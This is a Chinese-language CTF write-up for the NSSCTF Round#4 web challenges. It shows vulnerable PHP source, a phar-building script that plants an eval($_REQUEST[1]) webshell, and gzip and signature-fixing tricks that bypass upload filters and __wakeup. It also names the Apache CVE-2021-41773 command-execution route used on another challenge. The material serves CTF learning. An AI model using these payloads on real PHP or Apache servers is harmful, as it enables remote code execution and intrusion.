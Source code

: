 ```yaml
---
title: "NSSCTF Round#4 Web Writeup"
date: 2022-08-03T22:12:24+08:00
draft: false
author: "X1r0z"

tags: ['ctf','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


等 ez_web (revenge) 出来才发现原来的 ez_web 直接读 /flag 就行...

ez_rce 一开始因为没装插件的原因一直想不出来 (被打)

<!--more-->

## 1zweb

![20220803125540](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803125540.png)

查询文件处可以读文件

index.php

```php
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="ljt";
        $this->dky="dky";
        phpinfo();
    }
    public function __destruct(){
        if($this->ljt==="Misc"&&$this->dky==="Re")
            eval($this->cmd);
    }
    public function __wakeup(){
        $this->ljt="Re";
        $this->dky="Misc";
    }
}
$file=$_POST['file'];
if(isset($_POST['file'])){
    echo file_get_contents($file);
}
```

upload.php

```php
<?php
if ($_FILES["file"]["error"] > 0){
    echo "上传异常";
}
else{
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){
        $content=file_get_contents($_FILES["file"]["tmp_name"]);
        $pos = strpos($content, "__HALT_COMPILER();");
        if(gettype($pos)==="integer"){
            echo "ltj一眼就发现了phar";
        }else{
            if (file_exists("./upload/" . $_FILES["file"]["name"])){
                echo $_FILES["file"]["name"] . " 文件已经存在";
            }else{
                $myfile = fopen("./upload/".$_FILES["file"]["name"], "w");
                fwrite($myfile, $content);
                fclose($myfile);
                echo "上传成功 ./upload/".$_FILES["file"]["name"];
            }
        }
    }else{
        echo "dky不喜欢这个文件 .".$extension;
    }
}
?>
```

有一个类 LoveNSS, 想到了 phar 反序列化

这里也没啥 pop 链的, 直接改字段

payload

```php
<?php

class LoveNss{
    public $ljt = "Misc";
    public $dky = "Re";
    public $cmd = 'eval($_REQUEST[1]);';

}

$o = new LoveNss();

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

但是 upload.php 会检测文件中是否含有 `__HALT_COMPILER();` 这个关键字

大小写绕过无效, phar 不解析

网上搜了一下发现 phar 绕过的新姿势

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

可以通过 tar gzip bzip2 的方式压缩 phar 文件, PHP 处理时会自动解压缩并且解析里面的 phar

同时这里存在 `__wakeup`, 可以改数字绕过

> 当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 __wakeup 的执行

Linux 下使用 `gzip phar.phar` 压缩, 改后缀为 png 上传

![20220803130051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130051.png)

报错 `broken signature`

PHP 官方手册查了一下发现有签名校验

网上搜了好长时间都没结果... 然后想起来前几天的强网杯 easyweb 也是要绕过 `__wakeup`

于是换了个关键词在 Google 上搜了一会就出来了...

[https://www.wangan.com/p/7fy78yfaa40486ed#easyweb](https://www.wangan.com/p/7fy78yfaa40486ed#easyweb)

[http://www.yongsheng.site/2022/05/14/phar/](http://www.yongsheng.site/2022/05/14/phar/)

贴一下改签的脚本

```python
from hashlib import sha1

file = open('phar.phar','rb+').read()

text = file[:-28]

last = file[-8:]

new_file = text + sha1(text).digest() + last

open('new.phar','wb').write(new_file)
```

本地运行后改后缀上传

![20220803130513](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130513.png)

上传成功

![20220803130554](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130554.png)

链接

![20220803130700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130700.png)

![20220803130713](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130713.png)

## 1zweb (revenge)

和上面的一样基本没区别

index.php 略有改动

```php
if(isset($_POST['file'])){
    if (preg_match("/flag/i", $file)) {
    	die("nonono");
    }
    echo file_get_contents($file);
}
```

md 看了才知道原来那题直接读 /flag 就行...

wp 同上


## ez_rce

这题一开始没做出来, 原因是没装 Wappalyzer...

![20220803220146](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220146.png)

apache 2.4.49

存在一个路径穿越漏洞 CVE-2021-41773

[https://www.cnblogs.com/RichardYg/p/16272797.html](https://www.cnblogs.com/RichardYg/p/16272797.html)

目录遍历的 exp 测试失败, 命令执行 exp 测试成功

![20220803220317](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220317.png)

有一个 `flag_is_here` 文件夹

![20220803220342](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220342.png)

一共四层文件夹, 每一个文件夹都是 0-9

![20220803220428](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220428.png)

明显需要爆破一下

![20220803220458](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220458.png)

Attack type 设置为 Cluster bomb

这样一共就是 `10*10*10*10` 的 payload

![20220803221112](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803221112.png)

得到 flag